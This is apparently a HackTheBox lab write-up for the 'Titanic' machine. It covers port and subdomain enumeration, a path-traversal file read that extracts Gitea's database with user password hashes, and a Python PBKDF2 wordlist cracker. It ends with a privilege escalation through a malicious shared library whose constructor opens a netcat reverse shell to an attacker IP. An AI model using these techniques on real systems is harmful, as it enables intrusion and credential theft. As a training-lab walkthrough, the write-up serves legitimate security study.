

## HackTheBox Machine


### Link: https://app.hackthebox.com/machines/Titanic
-----------------------------------------------------------

### RECON:
+ Scan the open port in the machine:
```bash
$ nmap -sV -vv -A -T4 -p- titanic.htb
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp open  http    syn-ack Apache httpd 2.4.52
|_http-favicon: Unknown favicon MD5: 79E1E0A79A613646F473CFEDA9E231F1
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

+ Enumerate the available directories:
```bash
$ gobuster dir -u http://titanic.htb -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
===============================================================
/book                 (Status: 405) [Size: 153]
/download             (Status: 400) [Size: 41]
/server-status        (Status: 403) [Size: 276]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
```

+ We've found out that the website has the subdomain. We use tool   **ffuf** to fuzz the available subdomain.

```bash
$ ./ffuf -u 'http://titanic.htb/' -H 'Host: FUZZ.titanic.htb' -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc 200 -t 100

:: dev [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 71ms]
```
--> We've the subdomain `dev.titanic.htb`, add into /etc/hosts and access the subdomain.

### LFI (Local File Inclusion):
+ Access `http://dev.titanic.htb` that is the Git page name as `Gitea`.
+ Firstly, register new account and login into the `Gitea`.
+ Login successfully, we can access the interesting section `Repositories`, `Users` and `Organizations`. We will see repositories of Developer.
+ Access repo `flask-app` which is the source code of main page `Titanic Booking System`.
+ Reviewing the source code app.py, we've found out the potential feature has the vulnerability:


--> We are able to inject the every file-path we want into the parameter `ticket` because the method `json_filepath` is not filtering the directory-path `TICKETS_DIR`.

--> The vulnerability occurs `LFI-Path Traversal`.

+ Back to the main page `Titanic - Book your ship ticket` and exploit the vulne the feature `/download` the ticket.
+ We use BurpSuite to capture the request and exploit. We try with `/etc/passwd`.


### Gain the inital machine:
+ We access another repo of Developer `docker-config`. We find out the 2 folder `gitea` and `mysql`.
+ Access `/gitea/docker-compose.yml`:


+ We've seen the comment the file-path so we try to access the path `/home/developer/gitea/data`.


+ Now we continue fuzzing the available directories:


--> We've had 2 available directories: `git` and `ssh`.

+ After enumerating the `/git` and `/ssh`, we've found the potential directory `git/.ssh/environment`:


--> The hidden directory `/data/gitea`. Back to origin file-path and try to access.

+ Try to access the hidden directory:


+ Researching about the document of [Gitea](https://docs.gitea.com/administration/config-cheat-sheet#database-database) and we found the cheat sheet of Gitea.
+ In the `Configuration Cheat Sheet`, we found the section `PATH` which is path access the database `SQLite` of Gitea:


--> `PATH`: `data/gitea.db`.

+ Access the path:


--> Download the file .db and open it with SQLite.

```bash
$ sqlite3 _home_developer_gitea_data_gitea_gitea.db 
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
...
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```

***Note***: From this output, we know that the password hash is **passwd** in column 8, the **passwd_hash_algo** in column 9, and the **salt** is column 18.

+ Researching about hash algorithm `pbkdf2$50000$50`, we have some information:
```
    pbdkdf2 - Password-Based Key Derivation Function 2
    50000 - number of iterations over the salted password hash
    50 - the length of the derived key
```

+ We are able to crack the hash with code Python, we've found the source code to crack it:

```python
import hashlib
import binascii
import hmac

def pbkdf2_hash(password: str, salt: bytes, iterations: int = 100000, dklen: int = 32) -> bytes:
    """Generate PBKDF2 hash with the given password, salt, and iterations."""
    return hashlib.pbkdf2_hmac('sha256', password.encode(), salt, iterations, dklen)

def pbkdf2_verify(password: str, salt_hex: str, hash_hex: str, iterations: int = 100000, dklen: int = 32) -> bool:
    """Verify if the given password generates the same hash as the stored hash."""
    # Decode the salt and hash from hexadecimal
    salt = binascii.unhexlify(salt_hex)
    stored_hash = binascii.unhexlify(hash_hex)
    
    # Generate the PBKDF2 hash with the same parameters
    generated_hash = pbkdf2_hash(password, salt, iterations, dklen)
    
    # Compare the generated hash with the stored hash
    return hmac.compare_digest(generated_hash, stored_hash)

def crack_password(username, wordlist_file: str, salt_hex: str, hash_hex: str, iterations: int = 100000, dklen: int = 32):
    """Attempt to crack the password using a wordlist."""
    with open(wordlist_file, 'r') as file:
        for line in file:
            password = line.strip()  # Read password from file and strip any extra whitespace
            
            # Generate hash and check length before comparison
            test_hash = pbkdf2_hash(password, binascii.unhexlify(salt_hex), iterations, dklen)
            
            if len(test_hash) != len(binascii.unhexlify(hash_hex)):
                continue  # Skip if the length does not match

            if pbkdf2_verify(password, salt_hex, hash_hex, iterations, dklen):
                print(f"Password found for {username}: {password}")
                return password
        print("Password for {username} not found in the wordlist.")
        return None

# Example usage
username=''
salt_hex = ''  # The salt used during hashing, in hexadecimal format
stored_hash_hex = ''  # The stored hash from PBKDF2, in hexadecimal format
iterations = 50000  # Number of iterations used in PBKDF2
derived_key_length = 50  # Length of the derived key in bytes (e.g., 32 bytes for SHA-256)
# wordlist_file = '/home/ben/Pentest/WordLists/rockyou.txt'
wordlist_file = ''  # Path to the wordlist file

# Start cracking the password
crack_password(username, wordlist_file, salt_hex, stored_hash_hex, iterations, derived_key_length)
```

+ In the first, we crack with user `administrator` but not work so we just crack the user `developer`.
+ Run file and we have the password to login SSH:


+ Login SSH:


### Privilege Escalation:
+ After seeing around all directories, we found out the potential file in `/opt`.


+ We can execute file .sh without sudo. Checking the code of file .sh:

```bash
$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

+ We can manipulate the path `/opt/app/static/assets/images` to spawn the reverse shell.
+ Firstly, we access `/opt/app/static/assets/images` and create the file `libxcb.c`:

```C
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void init(){

system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 4444 >/tmp/f");
exit(0);
}
```
+ We can check the shared libraries are used by the program:
```bash
developer@titanic:~$ ldd /usr/sbin/apache2
	linux-vdso.so.1 (0x00007ffcbdb5d000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f81410ce000)
	libaprutil-1.so.0 => /lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007f81410a0000)
	libapr-1.so.0 => /lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007f8141063000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8140e3a000)
	libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f8140e00000)
	libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007f8140dcd000)
	libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007f8140dc4000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f814120a000)
developer@titanic:~$ ls -l /usr/lib/x86_64-linux-gnu/libxcb.so.1
lrwxrwxrwx 1 root root 15 Mar 24  2022 /usr/lib/x86_64-linux-gnu/libxcb.so.1 -> libxcb.so.1.1.0
```

+ Compile the code into a shared object at the location `/opt/app/static/assets/images` where the file `identify_images.sh` execute.


+ Use netcat to capture reverse shell.


-------------------------------------------